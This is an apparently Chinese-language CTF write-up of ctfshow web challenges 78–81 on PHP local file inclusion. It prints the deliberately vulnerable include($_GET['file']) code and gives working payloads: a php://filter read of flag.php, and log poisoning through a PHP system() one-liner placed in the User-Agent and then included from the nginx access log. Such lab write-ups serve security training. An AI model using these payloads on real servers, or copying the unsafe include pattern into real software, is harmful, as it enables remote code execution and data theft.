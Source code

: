## 写在前面
文件包含系列开始啦，写这一部分的时候php特性还没写完，我会加油的Orz
2021-11-30 01:31 By KonDream
## web78（签到题）
```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```
哈哈，第一题都是来练手的，没有任何过滤
payload：/?file=php://filter/convert.base64-encode/resource=flag.php
## web79（日志包含）
```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
把php过滤掉了，那么换姿势，尝试日志包含，默认日志路径：/var/log/nginx/access.log、/var/log/apache/access.log、/var/log/apache2/access.log，需要根据服务器类型来判断，具体情况具体分析嘛，包含一下日志看看
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638207962043-8b8078be-bb20-43fd-9b71-9b4a5ad0a858.png)
日志包含是可用的，可以看到包含的内容会被写入日志中，那么直接包含个一句话木马看看，这里直接包含到UA里，别问，问就是懒，防止被url编码了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638208113621-5b4b44bf-1217-438c-9814-d1e90607af21.png)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638208855966-fba3c5fd-830e-479d-a141-42c9a25d2fd4.png)
已经成功包含了啊，接下来就是找flag了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638208903819-2f6ba511-6ca1-41fe-8005-0ea5a557c6bb.png)
最终payload写马：<?=system('cat flag.php');?>右键查看源码即可
注意是先写UA，即先把马写到日志中去，然后再去包含一次日志，让其执行，这样才会看到执行结果
## web80（日志包含）
```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
日志包含，做法同上
## web81（日志包含）
```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
同上
